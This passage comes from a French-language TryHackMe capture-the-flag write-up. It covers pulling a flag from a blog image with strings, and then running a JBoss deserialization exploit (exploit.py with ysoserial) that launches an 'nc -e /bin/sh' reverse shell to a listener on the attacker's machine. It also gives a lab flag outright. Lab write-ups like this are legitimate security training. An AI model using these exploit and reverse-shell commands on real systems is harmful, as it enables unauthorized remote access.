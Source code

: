 ```bash
tim@kali:~/Bureau/tryhackme/write-up$ curl -s http://tonythetiger.thm/posts/frosted-flakes/ | grep jpg
  <link rel='icon' type='image/x-icon' href="https://i.imgur.com/ATbbYpN.jpg" />
<p><img src="https://i.imgur.com/be2sOV9.jpg" alt="FrostedFlakes"></p>
    <img alt="Author Avatar" src="https://i.imgur.com/ATbbYpN.jpg" />

tim@kali:~/Bureau/tryhackme/write-up$ wget -nv https://i.imgur.com/ATbbYpN.jpg
2021-07-24 10:50:44 URL:https://i.imgur.com/ATbbYpN.jpg [58063/58063] -> "ATbbYpN.jpg" [1]

tim@kali:~/Bureau/tryhackme/write-up$ strings be2sOV9.jpg | grep -i THM
}THM{Tony_Sure_Loves_Frosted_Flakes}
'THM{Tony_Sure_Loves_Frosted_Flakes}(dQ
```

On va sur la page web principale et clique sur les autres articles.   
On récupère les images.  
Et on regarde les chaîne dans le fichiers images et on trouve le flag.   

Réponse : THM{Tony_Sure_Loves_Frosted_Flakes}  

## Task 5 Exploit! ##
```bash
tim@kali:~/Bureau/tryhackme/write-up$ unzip jboss.zip
Archive:  jboss.zip
   creating: jboss/
  inflating: jboss/credits.txt       
  inflating: jboss/exploit.py        
  inflating: jboss/ysoserial.jar     
```

On décompresse l'exploit.   

![page-jboss](./task5.01.png)

On remarque que jboss fonctionne sur le port 8080, il faut mettre l'adresse ip sinon ca ne fonctione pas.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lvnp 1234
listening on [any] 1234 ...
```

On écoute le port 1234.   

```bash
tim@kali:~/Bureau/tryhackme/write-up/jboss$ python exploit.py 10.10.147.18:8080 "nc -e /bin/sh 10.9.228.66 1234"
[*] Target IP: 10.10.147.18
[*] Target PORT: 8080
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
[+] Command executed successfully
```

Sur un autre terminal on exécute l'exploit, avec un reverse shell.   

